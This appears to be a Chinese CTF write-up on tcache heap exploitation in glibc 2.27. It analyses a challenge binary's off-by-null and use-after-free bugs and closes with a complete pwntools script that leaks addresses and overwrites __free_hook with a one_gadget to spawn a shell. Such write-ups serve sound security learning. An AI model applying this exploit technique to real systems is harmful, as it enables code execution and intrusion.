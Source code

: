 # pwn:tcache学习
## 1.简介
libc2.27以后的版本中引入了tcache机制，使得堆的安全管理更加薄弱，在这里记录一下我在CTF比赛中学习到的tcache相关的知识和技巧。

## 2.例题
简要介绍以下这个二进制文件，形式为一个正常堆题，但使用的是libc2.27，因此考察的是对tcache进行利用

分析一下程序功能
#### add
![](./pic/add.png)

函数的功能为申请一段0XF8的空间，并给读入指定的size和输入。
在这里，get_input()函数有一个off by null漏洞

#### delete
![](./pic/delete.png)

函数的功能为free一个指定的list，但由于其没有对指针清零，有一个UAF漏洞。同时，注意到index有负数越界的漏洞，但其实这个并没有很大的作用

#### modify
![](./pic/modify.png)

函数的功能为对指定的list进行修改，这里同样也有负数越界，但是很难在程序段和bss段中找到合适的地址

#### show
![](./pic/show.png)

这里对指定的list进行打印，同样也有负数越界

#### 利用思路

##### leak思路
因为delete时没有清零，因此我们可以通过show一个free之后的chunk，从而leak出堆地址或libc地址

![](./pic/libc.png)

##### getshell思路
1.我们可以通过off by null漏洞进行unsorted bin attack，利用堆合并的时候检查PREV-IN-USE位，覆盖正在使用的chunk，从而构造UAF。

在这一步需要精心构造，此处需要使用7个tcache bin和3个unsorted bin

![](./pic/prepare.png)

填满tcahce的链表,由于之前已经有一个，此处只需要填6个

![](./pic/fill_tcache.png)

构造合并的unsorted bin，使第3个bin变成的prev size变为0x200

![](./pic/unsorted_bin_attack.png)

利用off by null

![](./pic/off_by_null.png)

重新调整chunk顺序，构造UAF

![](./pic/uaf.png)

在构造UAF后，通过modify函数修改chunk使其能malloc到任意地址，这里，由于我们只有堆地址和libc地址，因此我们可以malloc到\__free_hook()中，然后再修改\_\_free\_hook()为one\_gadget地址，使得free(chunk)函数会执行system(chunk)，从而getshell

![](./pic/getshell.png)

2.我们可以通过off_by_null覆盖tcache\_prethread结构体中0x100链表的地址，使其能够直接覆盖堆地址，从而进一步控堆，使其malloc到\_\_free\_hook()中,成功getshell,这一步暂时没有实现

#### 完整writeup

	from pwn import *
	
	r = process("./pwn")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
	elf = ELF("./pwn")
	
	def add(size,content):
	 r.recvuntil("command:\n")
	 r.sendline("1")
	 r.recvuntil("size:\n")
	 r.sendline(size)
	 r.recvuntil("content:\n")
	 r.sendline(content)
	
	def delete(index):
	 r.recvuntil("command:\n")
	 r.sendline("2")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def show(index):
	 r.recvuntil("command:\n")
	 r.sendline("3")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	
	def modify(index,content):
	 r.recvuntil("command:\n")
	 r.sendline("4")
	 r.recvuntil("index:\n")
	 r.sendline(str(index))
	 r.recvuntil("content:\n")
	 r.send(content)
	
	#chunk_addr = 0xF8
	#leak heap addr
	payload = "Hello"
	add("20",payload)#0
	add("20",payload)#1
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#4
	add("20",payload)#5
	
	delete(1)
	delete(2)
	delete(3)
	add("20","")
	modify(1,"A")
	show(1)
	
	heap_addr = u64(r.recv(6) + 2*'\x00') - 0x441
	success("heap_addr = %x",heap_addr)
	#base_addr = heap_addr - 0xc56000
	#success("guess_base_addr = %x", base_addr)
	
	add("20",payload)#2
	add("20",payload)#3
	add("20",payload)#6
	add("20",payload)#7
	add("20",payload)#8
	add("20",payload)#9
	
	delete(1)
	delete(2)
	delete(3)
	delete(4)
	delete(5)
	delete(6)
	delete(7)
	delete(8)
	
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("1","1")
	add("20","")
	modify(8,"AAAAAAAA")
	show(8)
	r.recvuntil("AAAAAAAA")
	libc.address  = u64(r.recv(6) + 2*'\x00') - 0x3eb000 - 0xca0
	success("libc_addr = %x",libc.address)
	free_hook = p64(libc.symbols['__free_hook'])
	one_gadget = libc.address + 0x4f322
	
	#reconstruct
	delete(0)
	delete(5)
	delete(6)
	delete(7)
	delete(4)
	delete(3)
	delete(9)
	delete(2)
	delete(1)
	delete(8)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	for i in range(3):
	 add("20",str(i) + "- unsorted")
	
	for i in range(6):
	 delete(i)
	#free second unsorted
	delete(8)
	#unsorted
	delete(7)
	
	add("248","overflow_it")
	delete(6)
	
	delete(9)
	
	for i in range(7):
	 add("20",str(i) +'- tcache')
	
	add("20","fill up")
	
	add("20", '9 - next')
	
	delete(1)
	delete(2)
	delete(0)
	delete(9)
	success("free_hook = %x", libc.symbols['__free_hook'])
	
	add("16", "haha") #0
	modify(0, p64(libc.symbols['__free_hook']))
	
	add("32", '/bin/sh') # 1
	add("16", "hh")
	modify(2,p64(one_gadget))
	
	# system("/bin/sh\x00")
	delete(1)
	
	r.interactive()

